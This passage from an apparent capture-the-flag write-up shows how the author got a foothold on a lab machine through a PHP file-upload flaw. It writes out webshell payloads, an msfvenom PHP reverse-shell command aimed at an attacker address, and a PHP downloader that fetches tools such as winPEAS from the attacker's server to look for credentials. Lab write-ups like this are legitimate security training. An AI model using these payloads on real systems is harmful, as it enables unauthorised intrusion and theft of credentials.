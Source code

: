 It got uploaded successfully, and if we access to "http://10.10.10.228/portal/uploads/test.php", we get "hola", as response.

![](/assets/images/breadcrumbs/phptest.png)

If we try to upload a file with the typical, `<?php system($_GET['cmd']) ?>`, it will fail, this is not the only what to get a webshell, so we can upload `<?php echo exec($_GET['cmd']) ?>`, anyways spwaning a reverse shell from it wasn't possible, any binary that we upload can't be executed, (probably AV running plus other stuff?), neither powershell reverse shell commands (maybe is running on constrained language), so let's generate a reverse shell on PHP with msfvenom, and upload it, `msfvenom -p php/reverse_php LHOST=10.10.16.42 LPORT=54321`. Once we request our file we get a shell, it's not the most stable one, but is better than the webshell.

![](/assets/images/breadcrumbs/shell1.png)

# Lateral Movement

Similar to the shell, uploading files is annoying, so let's upload a php script that will upload any file from our machine, we will call it uploader.php.

```php
<?php
file_put_contents($_GET['upload'],file_get_contents("http://10.10.16.42:8000/".$_GET['upload']));
?>
```

Since we can't run executable files, let's upload winPEAS.bat, we host it with python http server, and access to `curl 'http://10.10.10.228/portal/uploads/uploader.php?upload=winPEAS.bat'` to upload the file, and execute it on our shell, it takes a while, but at the end we find the credentials of www-data user.

![](/assets/images/breadcrumbs/wwwcred.png)

